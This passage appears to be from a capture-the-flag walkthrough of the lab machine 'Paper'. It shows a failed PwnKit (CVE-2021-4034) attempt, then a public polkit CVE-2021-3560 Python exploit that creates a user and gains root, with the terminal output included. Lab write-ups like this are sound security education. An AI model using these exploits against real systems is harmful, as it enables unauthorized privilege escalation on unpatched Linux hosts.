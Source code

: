 #### CVE-2021-4034

The immediately apparent solution, to me, is the use of [PwnKit](https://blog.qualys.com/vulnerabilities-threat-research/2022/01/25/pwnkit-local-privilege-escalation-vulnerability-discovered-in-polkits-pkexec-cve-2021-4034), the `pkexec` exploit discovered earlier this year (cve-2021-4034). However, when I tried to compile the exploit, kindly provided by [@bl4sty](https://twitter.com/bl4sty) on [haxx.in](https://haxx.in/exploits/), the process failed.

```bash
[dwight@paper .hidden]$ gcc blasty-vs-pkexec2.c
/usr/lib/gcc/x86_64-redhat-linux/8/../../../../lib64/crt1.o: In function '_start':
(.text+0x24): undefined reference to 'main'
collect2: error: ld returned 1 exit status

[dwight@paper .hidden]$
```

I then uploaded the binary, precompiled, using SCP, but it appears that it has been patched on Paper.

```bash
[dwight@paper .hidden]$ ./blasty-vs-pkexec2
[dwight@paper .hidden]$ # :(
```

#### CVE-2021-3560

However, [a different PolKit exploit written in Python](https://github.com/Almorabea/Polkit-exploit/blob/main/CVE-2021-3560.py) *is* functional on Paper:

```bash
[dwight@paper .hidden]$ python3 a.py
**************
Exploit: Privilege escalation with polkit - CVE-2021-3560
Exploit code written by Ahmad Almorabea @almorabea
Original exploit author: Kevin Backhouse 
For more details check this out: https://github.blog/2021-06-10-privilege-escalation-polkit-root-on-linux-with-bug/
**************
[+] Starting the Exploit 

...

[+] User Created with the name of ahmed

...

[+] Exploit Completed, Your new user is 'Ahmed' just log into it like, 'su ahmed', and then 'sudo su' to root 

We trust you have received the usual lecture from the local System
Administrator. It usually boils down to these three things:

    #1) Respect the privacy of others.
    #2) Think before you type.
    #3) With great power comes great responsibility.

bash: cannot set terminal process group (3090): Inappropriate ioctl for device
bash: no job control in this shell
[root@paper .hidden]#
[root@paper .hidden]# cd /root
[root@paper ~]# cat root.txt 
!REDACTED
[root@paper ~]# 
```
